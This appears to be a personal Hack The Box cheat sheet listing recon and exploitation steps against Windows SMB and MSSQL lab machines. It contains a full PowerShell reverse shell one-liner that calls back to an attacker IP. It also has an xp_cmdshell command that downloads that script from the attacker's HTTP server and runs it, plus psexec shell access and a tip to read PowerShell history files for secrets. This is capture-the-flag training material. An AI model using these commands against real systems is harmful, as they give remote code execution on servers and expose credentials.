 # HTB_cheatsheet

## Recon

### nmap

Scan for open ports: `nmap <IP> -p- -T4` <br />
Scan for services and their versions: `nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A` <br />
  

### SMB

try to list available shares on smb: `smbclient -L -N \\\\<IP>\\` <br />
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>` <br />
download file from share: `get \<FILE>` <br />

try to find out version of smb-service: use metasploit module ...smb_version TODO <br />

### SQL (Windows)

try to connect via impacket's `mssqlclient.py <USER>@<IP> -windows-auth`<br />
check for admin priviledges to be able to have remote code execution ``SELECT IS_SRVROLEMEMBER (`sysadmin`) `` <br />



## Exploitation

### SMB

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'` <br />

Check for vulnerability in combination with ftp of ms17_010


### SQL (Windows)

if we have sysadmin privileges we can enable the xp_cmdshell to gain remote code execution on the host
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure
xp_cmdshell "whoami"
```
we then can download a malicious script from our HTTPServer. We can use a One-Liner reverse shell code and save it as a .ps1 file, e.g. with One-Liner content: `$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
from the sql server both download and run it directly via `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` <br />
set up the listener beforehand as usual.


### Privilege Escalation

## Windows

check the PowerShell history file: `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`





